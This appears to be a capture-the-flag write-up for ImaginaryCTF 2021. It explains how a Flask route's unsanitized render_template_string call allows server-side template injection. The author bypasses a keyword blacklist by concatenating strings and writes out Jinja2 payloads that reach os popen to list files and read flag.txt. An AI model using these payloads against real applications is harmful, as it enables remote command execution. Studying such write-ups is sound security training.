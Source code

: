 # ImaginaryCTF 2021
After reviewing the python file, we can figure out the application is using function "render_template_string" which is vulnerable to SSTI. This function takes user input without any sanitizing.
```@app.route('/site')
def site():
  content = b64decode(request.args['content']).decode()
  #prevent xss
  blacklist = ['script', 'iframe', 'cookie', 'document', "las", "bas", "bal", ":roocursion:"] # no roocursion allowed
  for word in blacklist:
    if word in content:
      # this should scare them away
      content = "*** stack smashing detected ***: python3 terminated"
  csp = '''<head>\n<meta http-equiv="Content-Security-Policy" content="default-src 'none'">\n</head>\n'''
  return render_template_string(csp + content)
  ```
  **render_template_string(csp + content)**
  
  So the next step we need to call the necessary functions from dictionary-like object. The first step is to trigger one Object. Notice the 'las' and 'bas', 'bal' are blacklisted, so we need to bypass the control through concatenating the strings. Here is the payload I used.

**{{request["__cl"+"ass__"]["__mro__"]}}**

<pic.1>
The request here is a variable created before. We can also use other objects like [] '' or {}... The main point here is to get Object Class from Python.

Then we choose the index 3 in the tuple and we get an Object class:
{{request["__cl"+"ass__"]["__mro__"][3]}}
<pic.2>
The next steps are about to see all used classes, we can achive that through calling 'subclasses'.
{{request["__cl"+"ass__"]["__mro__"][3]["__subcl"+"asses__"]()}}
<pic.3>
Notice we got quite a lot of classes. We need to choose the exploitable ones. For instance os._wrap_close. We can also use other classes and the resources are easy to find on Internet :) The class here can be called via : "os._wrap_close.__init__.__globals__['popen']('INPUT YOUR LINUX COMMAND HERE').read()" Then we have the payload as following:
{{request["__cl"+"ass__"]["__mro__"][3]["__subcl"+"asses__"]()[132]['__init__']['__glob'+'als__']['popen']('ls').read()}}

Upon executing the ls command, we can see the files in current path:
<pic.4>
And we are able to see the content of the 'flag.txt' through command cat. Here is the final payload we used:
{{request["__cl"+"ass__"]["__mro__"][3]["__subcl"+"asses__"]()[132]['__init__']['__glob'+'als__']['popen']('cat flag.txt').read()}}
<pic.5>
And BINGO, we got the flag:

ictf{:rooYay:_:rooPOG:_:rooHappy:_:rooooooooooooooooooooooooooo:}
